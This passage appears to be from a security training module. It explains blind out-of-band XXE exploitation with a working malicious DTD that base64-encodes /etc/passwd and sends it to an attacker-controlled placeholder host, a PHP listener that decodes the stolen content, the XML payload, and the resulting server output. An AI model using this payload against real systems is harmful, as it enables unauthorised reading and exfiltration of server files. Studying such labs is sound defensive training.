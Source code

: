 In our previous attacks, we utilized an **out-of-band** attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-bound). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
Note: `content` variable will be used later. This xml code above must be stored in `xxe.dtd` file.

If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the `file` parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finally, we can decode the `WFhFX1NBTVBMRV9EQVRB` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:
```
user@htb[/htb]$ vi index.php # here we write the above PHP code
user@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```
Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
Then, we can send our request to the web application:
![web_attacks_xxe_blind_request](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_blind_request.jpg)

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:
```
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```
